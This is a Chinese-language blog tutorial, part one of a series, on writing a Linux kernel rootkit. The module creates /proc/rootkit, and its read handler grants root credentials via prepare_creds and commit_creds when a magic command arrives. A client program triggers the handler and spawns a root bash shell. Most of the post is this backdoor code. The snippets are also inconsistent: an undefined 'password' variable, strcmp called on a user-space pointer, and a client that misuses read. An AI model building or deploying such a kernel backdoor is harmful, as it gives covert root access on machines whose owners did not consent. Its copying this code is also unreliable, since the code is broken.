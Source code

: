 ```yaml
---
title: 编写Linux rootkit - 1
date: 2018-03-23
tag: Bin
layout: post
---
```


Linux rootkit是非常有趣的内核模块练习.如果做个比喻的话,rootkit就是内核级别的Hook程序.

这一次实现的是最简单的部分,我们直接创建一个新的proc文件,并使用proc文件的read方法传递命令.

本次实现的命令为获取root权限.

## 头文件

我们需要在client程序中引用rootkit程序中的一些参数,比如proc文件的名称,rootkit中设定的命令名称等.虽然可以写死在程序中,但是会给后续的修改带来麻烦.

因为功能很简单,我们只需要添加proc文件名称和getRoot的命令名称.

``` c
static char procfile[] = "rootkit";
static char get_root[] = "getroot";
```

## 创建proc文件

接下来的内核模块主体分为两部分: 创建proc文件, 实现根据参数执行命令的read方法.

在Linux 4.X的内核版本上,这两部分与以往相比都有变化.先说proc文件.

在3.X之前,创建proc文件是通过下面的函数进行的:

``` c
struct proc_dir_entry *create_proc_read_entry(const char *name,
                                    mode_t mode, struct proc_dir_entry *base,
                                    read_proc_t *read_proc, void *data);

typedef int (*read_proc_t)(char *page, char **start, off_t offset, int count,
                        int *eof, void *data);
```

但是这个函数在4.X的版本中已经被废弃了.我们不能简单的书写一个`read_proc_t`函数,然后传递给create参数.

目前创建proc文件使用的函数如下:

```
struct proc_dir_entry *proc_create(const char *name, umode_t mode,
                            struct proc_dir_entry *parent,
                            const struct file_operations *proc_fops);
```

可以发现,现在的proc文件使用的是更加通用的`file_operations`结构.这个结构用于各种文件操作相关的函数,比如设备读写等等.我们需要自己填充一个`file_operations`结构.这个结构体中的内容非常多,除了最基本本的open,read,write之外,还包括读写位置相关操作,目录操作,阻塞标志位等.

对于我们而言,只需要关心其中的read和write方法.

``` c
ssize_t (*read)(struct file *filp, char __user *buff,
            size_t count, loff_t *offp);
ssize_t (*write)(struct file *filp, const char __user *buff,
            size_t count, loff_t *offp);
```

open方法在fops中不是必须实现的.如果没有实现open(也就是open的指针值为NULL)方法,那么每次打开文件一定会成功.

方法的具体实现在下面.现在我们可以填充`file_operations`了:

``` c
static struct file_operations proc_fops = {
    .owner = THIS_MODULE,
    .read = read_fops,
};
```

因为我使用read方法传递命令,所以并没有实现write方法.

获得了fops结构,剩下的就是创建proc文件了:

``` c
proc_create(procfile, 0, NULL, &proc_fops);
```

procfile变量在头文件中定义为rootkit.这样我们便在`/proc`目录下创建了文件rootkit.

## read方法与权限提升

这一次实现的rootkit函数只有getRoot,也就是权限提升.我们在read方法中判断要执行的命令,并且完成相应的功能.

先来说一下权限提升.

在内核最开始的版本中,进程权限是写在进程对应的task结构中的,与uid,gid对应的也仅仅是简单的整数类型.

后来的变更中,整个权限部分被移植到了cred结构中,task中只保留了指向对应cred的指针.但是对于uid和gid来说,他们仍然是简单的整数类型,直接被保存在cred结构中.

对于uid和gid,数值0代表了root权限.于是我们只需要`cred->uid = cred->gid = 0`即可完成权限提升.

但是现在cred中的uid和gid是这样的:

``` c
struct cred{
    ...
    kuid_t uid;
    kgid_t gid;
    kuid_t suid;
    kgid_t sgid;
    kuid_t euid;
    kgid_t egid;
    ...
}
```

这一次他们的类型不是整数了.我们展开`kuid_t`和`kgid_t`:

``` c
typedef struct {
    uid_t val;
} kuid_t;

typedef struct {
    gid_t val;
} kgid_t;
```

`uid_t`和`gid_t`仍然是整数类型.而且在内存中,单元素的结构体和一个变量本身相同,所以这只是简单的封装而已.

但是我们不能在获得一个新的cred后简单的使用`cred->uid = 0`来设定root权限了.对于`kuid_t`和`kgid_t`结构,我们可以使用下面的宏:

``` c
#define KUIDT_INIT(value) (kuid_t){ value }
#define KGIDT_INIT(value) (kgid_t){ value }
```

这同样是简单的封装,但是比手写结构体要清晰的多.这一组定义都包含在头文件`<linux/uidgid.h>`中,因为他们已经在`cred.h`中被包含了,我们无需重复include.

了解了新的root权限设定方式,我们可以完成我们的read方法了:

``` c
static ssize_t read_fops(struct file *filp, char __user *buff,
                    size_t count, loff_t *offp)
{
    check_command(buff);

    return count;
}

static int check_command(const char __user *buff){
    // get privileges
    if(!strcmp(buff, password)){
        struct cred *new_cred = prepare_creds();
        new_cred->uid = KUIDT_INIT(0);
        new_cred->gid = KGIDT_INIT(0);
        new_cred->euid = KUIDT_INIT(0);
        new_cred->egid = KGIDT_INIT(0);
        commit_creds(new_cred);
    }
    else{
        return 0;
    }

    return 1;
}
```

因为什么都没有,所以read方法在最后只需要简单的返回一个count就可以了.我们使用`prepare_creds`来获取一个新的cred.这个新的cred继承自当前进程的cred,所以我们需要使用上面的宏将其uid和gid设定为0,也就是root权限.最后,使用`commit_creds`覆盖旧的cred即可完成权限提升.

这其实没有什么用处.虽然模块运行在root权限,可以在进程上下文中为所欲为,但是安装内核模块同样需要root权限.也就是说,我们需要用root权限来完成提权.这和sudo有什么区别呢?

## client程序

我们需要编写客户端程序来执行rootkit的命令.

``` c
char proc_file[64];

sprintf(proc_file, "/proc/%s", procfile);

int fd = open(proc_file, O_RDONLY);

read(fd, get_root, strlen(password));

system("/bin/bash");
```

除了上面的几句之外,我们还可以对fd进行检查,甚至安全的拷贝我们的`proc_file`数组.

编译我们的模块和客户端程序,使用insmod装载,执行客户端程序,我们便完成了权限提升.

## 总结

阅读内核源代码是解决问题的最好方案.

创建proc文件方式的变动让我不得不了解fops结构体.但是fops结构体的open方法让人困惑,直到我在书中的其他部分知道了这并不是必要的.

关于cred则十分有趣.因为我们编写的是内核模块,所以为了通过编译不得不再次翻阅源码来找到正确的uid设定方式.但是它在内存中仍旧只是一个整数长度,漏洞攻击时对此无需理会.

网络上关于内核的文章总是跟不上内核更新的进度.手握源码,才能了解一切(笑).


